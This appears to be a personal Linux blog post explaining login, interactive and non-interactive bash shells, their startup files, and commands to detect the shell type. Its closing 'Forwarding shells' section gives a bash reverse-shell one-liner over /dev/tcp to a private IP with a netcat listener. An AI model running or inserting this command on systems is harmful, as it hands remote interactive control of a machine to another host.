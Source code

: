 ```yaml
---
layout:     post
title:      interactive and non-interactive, login
date:       2018-12-08 15:31:19
author:     Sandip
summary:    interactive, non-interactive, login
categories: linux
thumbnail:  linux 
comment: true
tags:
     -  interactive
     - non-interactive
     - login
     
---
```

### Different shell types: interactive, non-interactive, login

#### Shells
Shells control how you interact with your computer systems. I always switch between the Bourne shell (sh), Korn shell (ksh) and Bourne-Again shell (bash) but there are numerous others.

There are three types of shells
a login shell;
an interactive shell;
a non-interactive shell.

The type of shell defines what set of features you can use. Choosing the type of shell is important to achieve your goal(s).

### A login shell
A login shell is the shell that is run when you log in to a system, either via the terminal or via SSH.

Why is this important? If you run a login shell it executes a number of files on startup. This can influence how your system behaves and you have to put your environment variables in these files. The files that are run are

.profile
.bash_profile
.bash_login

### An interactive shell
An interactive shell is when you type in the name of the shell after you have logged in to the system. For example

1.	bash
will start an interactive bash shell.

An interactive (bash) shell executes the file .bashrc so you have to put any relevant variables or settings in this file.

### A non-interactive shell
A non-interactive shell is a shell that can not interact with the user. It’s most often run from a script or similar. This means that .bashrc and .profile are not executed. It is important to note that this often influences your PATH variable. It is always a good practice to use the full path for a command but even more so in non-interactive shells.

Detect the type of shell, BASH only

You can detect if you are in an interactive or non-interactive shell with
```
1 .[[ $- == *i* ]] && echo 'Interactive' || echo 'not-interactive'
```
To detect if you are in a login shell or not you have to use the shopt command.
```
1 . shopt -q login_shell && echo 'login' || echo 'not-login'
```
or do
```
1 . shopt | grep login_shell
```
The shopt command allows you to change additional shell optional behavior.

Forwarding shells
One of the most interesting things that you can do with a shell is to forward it to another host. You will need nc or netcat on the host to which you forward the shell.

On the host with the shell you have to issue the command
```
1. bash -i >& /dev/tcp/192.168.218.1/9999 0>&1
```
The address 192.168.218.1 is the host to which you want to forward the shell. After the IP (note that you can also use a hostname but I strongly suggest you use an IP to prevent issues with hostname-resolving) you have to put the port number (9999) on which the netcat listener will listen.
You have to start the netcat listener on the other side. Double check that there are no firewall rules preventing you from accepting connections.
```
1 . nc -l 9999
```
Some versions of netcat require you to add -p before the port number. If all goes well you should get the shell on the listening host.
